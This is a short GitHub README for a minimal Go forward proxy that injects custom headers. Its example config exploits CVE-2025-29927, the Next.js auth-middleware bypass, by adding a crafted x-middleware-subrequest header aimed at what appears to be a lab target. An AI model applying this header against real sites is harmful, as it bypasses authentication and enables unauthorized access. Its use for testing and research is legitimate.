 # Poor man's forward proxy
[![Go Tests](https://github.com/SaremS/pmfp/actions/workflows/go.yml/badge.svg?branch=master)](https://github.com/SaremS/pmfp/actions/workflows/go.yml)

## Summary
(currently http only)

Forward proxy with minimal features (currently only adds custom headers to each request)
## Usage
Currently
```
go run cmd/main.go --config {config-yaml; see examples} --port {target port to bind proxy to}
```

## Example
### CVE-2025-29927
(Auth-Middleware bypass in Next.JS)

#### Config (see examples):
```
scope:
- type: exact_match
  target_host: 94.237.57.115:54987
request_manipulators:
- type: add_header
  header_name: x-middleware-subrequest
  header_value: "middleware:middleware:middleware:middleware:middleware"
```

#### Result:
![Demo](examples/cve_2025_29927_example.gif)

